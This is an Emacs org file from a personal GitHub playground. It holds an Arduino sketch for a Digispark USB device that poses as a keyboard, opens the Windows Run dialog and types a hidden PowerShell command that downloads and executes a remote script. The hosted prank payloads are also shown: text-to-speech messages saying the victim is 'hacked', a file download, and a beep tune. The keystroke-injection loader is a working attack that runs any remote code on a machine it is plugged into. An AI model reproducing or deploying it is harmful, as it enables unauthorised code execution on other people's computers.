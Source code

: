#+TITLE: My Digispark playground
#+auto_tangle: t


:toc:
- [[#about][About]]
- [[#execute_powershell_scriptino][Execute_Powershell_Script.ino]]
- [[#scriptps1][script.ps1]]
  - [[#old-payloads][Old payloads]]

* About
In this org file the arduino script for my digispark is described and several payloads which are hosted on my Github.

* Execute_Powershell_Script.ino

#+begin_src C :tangle Powershell.ino
#include "DigiKeyboard.h"

void setup() {
  //Set Pins 1 as outputs.
  pinMode(1, OUTPUT); //my digispark red led: 1, others could be 0
}

void loop() {
  // Initialise digispark
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(600);

  // Opens the run dialog
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(600);

  // Writes the command
  DigiKeyboard.print("powershell -w h ");
  DigiKeyboard.print("iex (irm \"");
  DigiKeyboard.print("https://raw.githubusercontent.com/Prutserdt/dotfiles/master/Stack/Code/Powershell/script.ps1");  // The payload is here :-)
  DigiKeyboard.print("\")");
  // Enters it
  DigiKeyboard.sendKeyStroke(KEY_ENTER);

  //Finished. Now show a red LED to indicate  the payload is deployed
  digitalWrite(1, HIGH);
  for (;;) {/* Stops the loop */}
}
#+end_src

* Some powershell tips




* script.ps1
The next code block is my current script that is deployed by my Digispark and hosted on Github.


#+begin_src shell :tangle script.ps1
# Source URL
$url = "https://web-archive.southampton.ac.uk/cogprints.org/1927/1/NEURON_SOMA_SIZE_IN_THE.TEXT"
# Destation file
$dest = "c:\temp\einstein.txt"
# Download the file
Invoke-WebRequest -Uri $url -OutFile $dest
# Read the contents of the text file into a variable
$text = Get-Content -Path $dest -Raw

# Wait for 120 seconds before running next part
Start-Sleep -Seconds 1
# Text to speech :-)
Add-Type -AssemblyName System.speech
$s = New-Object System.Speech.Synthesis.SpeechSynthesizer
#$s.Speak("Test test testicles. OMG whats going on. Seems like you are hacked right? Oh yes indeed you are hacked and powned. First let me do some work and I will talk to you in a minute. Meanwhile you should wave to the camera.")
#Start-Sleep -Seconds 5
$tts.Rate   = 10
$s.Speak("hum nom nom. Don't worry just warming up my vocal chords. I will give a speech to you soon. Downloading some files.")
Start-Sleep -Seconds 5
$s.Speak($text)

#+end_src

#+RESULTS:



$s.Speak("Yo, yo. You have been hacked. Please wave to the camera. Ha, ha. Fortunately this is just for shits and giggles. But. Remember. You could have been seriously compromised. Over and out. Peace.")

https://static.pbslearningmedia.org/media/media_files/Full_text_I_Have_a_Dream_.pdf


** Old payloads

Plays the Imperial March (Star Wars)
This PowerShell script plays the Imperial March used in the Star Wars film series.
https://github.com/fleschutz/PowerShell
NOTES: Author: Markus Fleschutz | License: CC0
#+begin_src shell
[System.Console]::beep(440, 500)
[System.Console]::beep(440, 500)
[System.Console]::beep(440, 500)
[System.Console]::beep(349, 350)
[System.Console]::beep(523, 150)
[System.Console]::beep(440, 500)
[System.Console]::beep(349, 350)
[System.Console]::beep(523, 150)
[System.Console]::beep(440, 1000)
[System.Console]::beep(659, 500)
[System.Console]::beep(659, 500)
[System.Console]::beep(659, 500)
[System.Console]::beep(698, 350)
[System.Console]::beep(523, 150)
[System.Console]::beep(415, 500)
[System.Console]::beep(349, 350)
[System.Console]::beep(523, 150)
[System.Console]::beep(440, 1000)
exit 0 # success
#+end_src
